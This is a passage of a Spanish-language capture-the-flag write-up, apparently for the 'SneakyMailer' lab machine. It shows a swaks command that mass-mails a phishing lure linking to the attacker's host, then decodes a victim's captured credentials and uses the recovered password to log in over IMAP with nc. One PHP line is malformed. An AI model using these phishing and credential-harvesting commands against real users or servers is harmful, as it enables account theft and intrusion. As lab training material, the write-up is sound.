 ```bash
swaks --to $(cat email.txt | tr '\n' ',') --from "s4vitar@sneakymailer.htb" \
--header "Subject: EEEEEEEE" --body "OH DIOS MIO ES DIAMOND JACKSON -> http://10.10.14.20/diamondjackson.jpg" \
--server 10.10.10.197
```

Ya vemos que podemos enviar el mail y que ademas alguien a pinchado el enlace. Ademas como utilizamos **nc** y no **python**
podemos ver la data enviada en raw. En la data vemos que podemos ver el usuario, el email y su password en formato url encode.

```bash
php --interactive

> print urldecode()"firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt"
```

Ya vemos la contraseña del usuario en texto claro.

Intentamos conectar por **SSH** y **FTP** pero nada

### Conectar por el IMAP con NC {-}

1. Logear por IMAP con NC

    ```bash
    nc 10.10.10.197 143

    A1 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
    #Output
    A1 OK LOGIN Ok.
    ```

1. Listar el contenido

    ```bash
    A2 LIST "" "*"
    ```
    
1. Seleccionar INBOX

    ```bash
    A3 SELECT "INBOX"
    ```

1. Seleccionar los mensajes enviados

    ```bash
    A4 SELECT "INBOX.Sent"
    ```

1. Seleccionar los items enviados

    ```bash
    A5 SELECT "INBOX.Sent Items"
    ```
